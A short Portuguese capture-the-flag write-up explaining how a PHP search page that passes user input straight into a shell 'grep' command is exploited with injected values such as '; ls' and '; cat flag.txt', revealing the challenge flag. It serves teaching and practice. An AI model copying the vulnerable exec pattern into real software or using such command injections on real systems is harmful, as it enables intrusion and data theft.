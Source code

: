 # Sopa de letrinhas

## Alex:

**Flag:** `Ganesh{fL46_!5N7_iN_Dic7}`

Ao entrar na página fiz alguns testes e percebi que provavelmente tinha um banco de palavras. Tentei achar a flag enviando um "Ganesh" como busca, para ver se retornava algo, mas não retornou nada. Então a flag devia estar escondida em algum outro lugar.

Abri então o código fonte e vi que possuía o código fonte do php, que basicamente recebia o que estava na query e enviava um comando para o shell executar.

```php
$query = trim($_GET["q"]);
$results = [ ];

if(!empty($query)) {
    exec("cat list.txt | grep " . $query, $results);
}
```

Então comecei tentando ver os arquivos que o diretório possuia por meio do ls, mandando a seguinte query: `; ls`. O `;` é para quebrar o comando anterior, que é o `grep` do `cat` da `list.txt`.

Então a página me retornou o seguinte:

```text
3 resultados encontrados:

flag.txt
index.php
list.txt
```

Ao dar um `cat` da `flag.txt` \(`; cat flag.txt`\) a página me retornou:

```text
1 resultados encontrados:

Ganesh{fL46_!5N7_iN_Dic7}
```


